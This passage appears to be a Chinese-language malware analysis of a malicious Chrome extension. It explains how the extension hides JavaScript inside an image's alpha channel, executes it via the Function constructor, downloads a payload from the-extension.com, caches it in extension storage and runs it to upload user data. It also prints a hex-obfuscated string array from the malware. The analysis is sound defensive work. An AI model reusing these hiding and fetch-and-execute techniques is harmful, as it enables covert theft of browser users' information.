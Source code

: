 而触发处理的是在**&gt;=16**这一条件下,构成(6,5,5)这样一个循环

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a9d524ce4c55e0aa.png)

再结合w的变换,只需要再安排好一个合适的数列，就能把大数拆分成(6,5,5)这样一组一组的由**0-9**组成的数

这就是为什么能以小于**10**的值将期望的值隐藏在**A**分量里

[![](https://p1.ssl.qhimg.com/t018c71f3f38f9ab81e.png)](https://p1.ssl.qhimg.com/t018c71f3f38f9ab81e.png)

这就达到了将js代码隐藏于图片的效果，并且对图片本身几乎无任何显示效果以及大小上的影响

而根据js中,**document.dafaultView[“Function”](n)()**这个方式,可以直接执行n中的js代码,所以直接尝试增加**document.write(n) **直接输出n的内容至页面

[![](https://p5.ssl.qhimg.com/t01e5bc1cc8ae1fdb91.png)](https://p5.ssl.qhimg.com/t01e5bc1cc8ae1fdb91.png)

[![](https://p4.ssl.qhimg.com/t011663cdbe18b983cd.png)](https://p4.ssl.qhimg.com/t011663cdbe18b983cd.png)

可以看到这确实是一段js代码

**隐藏JS代码执行**



可以看到,原本的代码是执行**i()**函数,而**i()**函数的内容是**setTimeout**这一定时执行函数,为了测试 直接提取出其中的执行函数进行执行

这些代码的功能按流程来说如下

1.首先**e(`{`‘act’: func1(‘0x2d’)`}`);**进行一个时间戳校验,满足一定时间后,从**https://the-extension.com**上下载js的payload

2.调用**chrome.storage.local.set**方法将这段js代码保存至本地缓存

```
Log/home/r7/.config/google-chrome/Default/Local Extension Settings/ffhkkpnppgnfaobgihpdblnhmmbodake/000003.log
```

这一文件中

3.再通过**r()[func1(‘0x1’)](a);**调用**r()**函数后再调用**a()**函数,执行了第二部保存下来的恶意js代码,进行的用户信息上传

**0x01**



首先是第一个技术,代码里的英文字符串90%都转换成了16进制的表示形式

例如

```
var _0x2126 = ['x63x6fx64x65', 'x76x65x72x73x69x6fx6e', 'x65x72x72x6fx72', 'x64x6fx77x6ex6cx6fx61x64', 'x69x6ex76x61x6cx69x64x4dx6fx6ex65x74x69x7ax61x74x69x6fx6ex43x6fx64x65', 'x54x6ax50x7ax6cx38x63x61x49x34x31', 'x4bx49x31x30x77x54x77x77x76x46x37', 'x46x75x6ex63x74x69x6fx6e', 'x72x75x6e', 'x69x64x6cx65', 'x70x79x57x35x46x31x55x34x33x56x49', 'x69x6ex69x74', 'x68x74x74x70x73x3ax2fx2fx74x68x65x2dx65x78x74x65x6ex73x69x6fx6ex2ex63x6fx6d', 'x6cx6fx63x61x6c', 'x73x74x6fx72x61x67x65', 'x65x76x61x6c', 'x74x68x65x6e', 'x67x65x74', 'x67x65x74x54x69x6dx65', 'x73x65x74x55x54x43x48x6fx75x72x73', 'x75x72x6c', 'x6fx72x69x67x69x6e', 'x73x65x74', 'x47x45x54', 'x6cx6fx61x64x69x6ex67', 'x73x74x61x74x75x73', 'x72x65x6dx6fx76x65x4cx69x73x74x65x6ex65x72', 'x6fx6ex55x70x64x61x74x65x64', 'x74x61x62x73', 'x63x61x6cx6cx65x65', 'x61x64x64x4cx69x73x74x65x6ex65x72', 'x6fx6ex4dx65x73x73x61x67x65', 'x72x75x6ex74x69x6dx65', 'x65x78x65x63x75x74x65x53x63x72x69x70x74', 'x72x65x70x6cx61x63x65', 'x64x61x74x61', 'x74x65x73x74', 'x69x6ex63x6cx75x64x65x73', 'x68x74x74x70x3ax2fx2f', 'x6cx65x6ex67x74x68', 'x55x72x6cx20x65x72x72x6fx72', 'x71x75x65x72x79', 'x66x69x6cx74x65x72', 'x61x63x74x69x76x65', 'x66x6cx6fx6fx72', 'x72x61x6ex64x6fx6d', 'x63x68x61x72x43x6fx64x65x41x74', 'x66x72x6fx6dx43x68x61x72x43x6fx64x65', 'x70x61x72x73x65'];
```
